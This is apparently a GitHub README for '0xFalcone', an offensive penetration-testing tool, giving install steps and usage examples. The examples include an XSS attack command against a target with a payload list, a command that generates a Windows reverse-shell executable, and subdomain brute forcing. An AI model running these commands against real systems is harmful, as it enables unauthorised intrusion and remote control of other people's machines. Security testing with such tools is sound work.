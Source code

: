# 0xFalcone
<p align="center">
 <img src="https://user-images.githubusercontent.com/76629405/147866636-66a975ba-8785-455e-9f30-7a7de8b933f7.png" width=250>
</p>
<h3>Installation</h3>
 Install 0xFalcone Tool:
<hr>

```apt install git```

``` git clone https://github.com/hassanalharbi123/0xFalcon ```

``` cd 0xFalcon ```

``` python3 install.py ```
<hr>

<h3>Usage</h3>

``` python3 exploit.py -h ```

![image](https://user-images.githubusercontent.com/76629405/147748640-229c15f4-51ca-42b6-b4b7-343a96b84785.png)

 Example XSS Tool: ``` python3 exploit.py -u xss -T http://example.com -L list.txt -m GET -n username ```
 
 Windows Reverse Shell: ``` python3 exploit.py -u shell -y exe -I 127.0.0.1 -P 1111 -F payloadexe  ```
 
 ![image](https://user-images.githubusercontent.com/76629405/147749039-ac562649-0096-4e82-a004-5071f8e8384f.png)
 
 Subdomains Brute Force: ``` python3 exploit.py -u subdomain -T http://example.com```
 and you can also Brute Force Attack (Files and Folders), Extract Picture metadata.

